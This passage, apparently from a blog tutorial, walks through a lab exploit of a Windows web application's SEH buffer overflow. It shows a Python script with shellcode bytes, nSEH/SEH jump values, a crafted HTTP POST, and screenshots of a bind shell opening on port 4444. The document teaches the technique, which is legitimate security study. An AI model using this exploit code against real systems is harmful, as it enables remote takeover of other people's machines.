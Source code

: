 > buf += "\\xab\\x59\\x5c\\x48\\x04\\x0e\\x68\\x31\\x78\\xae\\x97\\xe8\\x38"
> buf += "\\xde\\xdd\\xb0\\x69\\x77\\xb8\\x21\\x28\\x1a\\x3b\\x9c\\x6f\\x23"
> buf += "\\xb8\\x14\\x10\\xd0\\xa0\\x5d\\x15\\x9c\\x66\\x8e\\x67\\x8d\\x02"
> buf += "\\xb0\\xd4\\xae\\x06"
> 
> shellcode += buf
> 
> 
> jmpShellcode = "\\xE9\\xF3\\xFC\\xFF\\xFF" # JMP to the beginning of our shellcode
> inital = "\\x41" \* (790 - len(shellcode)-len(jmpShellcode))
> nseh = "\\xEB\\xF0\\x90\\x90" # JMP backwards 15 bytes
> seh = "\\xC2\\x15\\x40" #004015C2 -> POP EDI, POP EBP, RETN from Application itself
> 
> 
> buffer = "POST /" + shellcode + inital + jmpShellcode + nseh + seh + " HTTP/1.1\\r\\n"
> buffer += "User-Agent: Wget/1.13.4\\r\\n"
> buffer += "Host: 192.168.99.142:8080\\r\\n"
> buffer += "Accept: \*/\*\\r\\n"
> buffer += "Connection: Keep-Alive\\r\\n"
> buffer += "Content-Type: application/x-www-form-urlencoded\\r\\n"
> buffer += "Content-Length: 4"
> buffer += "\\r\\n\\r\\n"
> buffer += "licenseID=string&content=string&paramsXML=string"
> 
> handle = socket.socket(socket.AF_INET, socket.SOCK\_STREAM)
> handle.connect(("192.168.82.129", 8080))
> handle.send(buffer)
> handle.close()


If we execute this now, and pause right after we execute the long jump, we can see we hit around about the middle to end of our NOP sled:


[![](https://4.bp.blogspot.com/-gITmOZJGNm4/VEGv58U5LbI/AAAAAAAAAdc/aiOCJ5z96E8/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_078.png)](https://4.bp.blogspot.com/-gITmOZJGNm4/VEGv58U5LbI/AAAAAAAAAdc/aiOCJ5z96E8/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_078.png)



Executing this code results in port 4444 opening:


[![](https://3.bp.blogspot.com/-CDIxFf0LncU/VEGwVV-jIgI/AAAAAAAAAdk/FkMZsYuwYFE/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_079.png)](https://3.bp.blogspot.com/-CDIxFf0LncU/VEGwVV-jIgI/AAAAAAAAAdk/FkMZsYuwYFE/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_079.png)



Connecting to this port returns a shell:



[![](https://3.bp.blogspot.com/-VBJAhNqMxUk/VEGwkBau-cI/AAAAAAAAAds/vZIlUH2QpLU/s0/Kali%2BLinux%2B1.0.6%2B32%2Bbit%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_080.png)](https://3.bp.blogspot.com/-VBJAhNqMxUk/VEGwkBau-cI/AAAAAAAAAds/vZIlUH2QpLU/s0/Kali%2BLinux%2B1.0.6%2B32%2Bbit%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_080.png)
